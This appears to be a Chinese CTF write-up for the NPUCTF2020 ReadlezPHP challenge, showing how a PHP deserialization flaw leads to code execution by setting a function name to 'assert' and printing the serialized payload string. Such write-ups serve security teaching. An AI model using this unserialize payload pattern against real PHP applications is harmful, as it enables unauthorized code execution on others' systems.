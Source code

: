 # [NPUCTF2020]ReadlezPHP 反序列化简单反序列

题目还是挺简单的

看代码



<img src="https://i-blog.csdnimg.cn/blog_migrate/dc68819c03e73388e45ced6d014bfe9a.png" alt="" style="max-height:75px; box-sizing:content-box;" />


访问一下



<img src="https://i-blog.csdnimg.cn/blog_migrate/99c41b006574ba5cbe69f19a44c83b3b.png" alt="" style="max-height:682px; box-sizing:content-box;" />


一看就是反序列化

看看执行主要是 echo $b($a)

那就是$b是命令 $a是参数

这里还要fuzz一下 因为system不能执行

所以我们可以使用其他命令执行函数例如 assert

我们看看如何构造

```php
    public $a;
    public $b;
    public function __construct(){
        $this->a = "Y-m-d h:i:s";
        $this->b = "date";
    } 
 
创建的时候 赋值 data(Y-m-d h:i:s)
 
所以很明显 我们只需要将b设置为我们的命令函数
 
a设置为参数即可
```

```php
<?php
class HelloPhp
{ 
    public $a="phpinfo()";
    public $b="assert";
  }
echo serialize(new HelloPhp());
```

payload

```cobol
O:8:"HelloPhp":2:{s:1:"a";s:9:"phpinfo()";s:1:"b";s:6:"assert";}
 
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/34467f895b2f0833e2b15e52ed10e633.png" alt="" style="max-height:280px; box-sizing:content-box;" />


就是这么简单结束了